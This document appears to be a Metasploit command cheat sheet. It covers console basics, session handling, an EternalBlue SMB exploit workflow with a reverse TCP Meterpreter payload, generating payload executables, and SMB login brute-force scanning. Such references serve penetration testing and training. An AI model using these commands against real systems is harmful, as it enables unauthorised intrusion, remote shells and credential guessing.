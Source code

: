 ## Basic Commands

-   `search`: Search the exploit and module database
-   `use`: Use a specific exploit or module
-   `show options`: Display the options for a module
-   `show advanced`: Display the advanced options for a module, including payload
-   `set`: Set an option value for a module
-   `exploit`: Run the exploit
-   `back`: Go back to the previous context
-   `exit`: Exit Metasploit

## Working with Sessions

-   `sessions`: List active sessions
-   `sessions -i`: Interact with a specific session
-   `sessions -u`: Upgrade a command shell to a Meterpreter session
-   `sessions -k`: Terminate a session

## Working with Exploits

-   `exploit/multi/handler`: Set up a multi-handler to receive incoming connections
-   `use exploit/windows/smb/ms17_010_eternalblue`: Use the EternalBlue SMB exploit
-   `set payload windows/meterpreter/reverse_tcp`: Set the payload to a reverse TCP Meterpreter shell
-   `set LHOST <local IP address>`: Set the local IP address to listen on
-   `set LPORT <local port>`: Set the local port to listen on
-   `exploit -j`: Run the exploit in the background

## Working with Payloads

-   `use payload windows/meterpreter/reverse_tcp`: Use the reverse TCP Meterpreter payload
-   `set LHOST <local IP address>`: Set the local IP address for the payload to connect to
-   `set LPORT <local port>`: Set the local port for the payload to connect to
-   `generate`: Generate an executable file with the payload embedded

## Working with Scanners

-   `use auxiliary/scanner/smb/smb_login`: Use the SMB login scanner
-   `set RHOSTS <IP range>`: Set the range of IP addresses to scan
-   `set USERNAME <username>`: Set the username to use for the scan
-   `set PASSWORD <password>`: Set the password to use for the scan
-   `run`: Run the scanner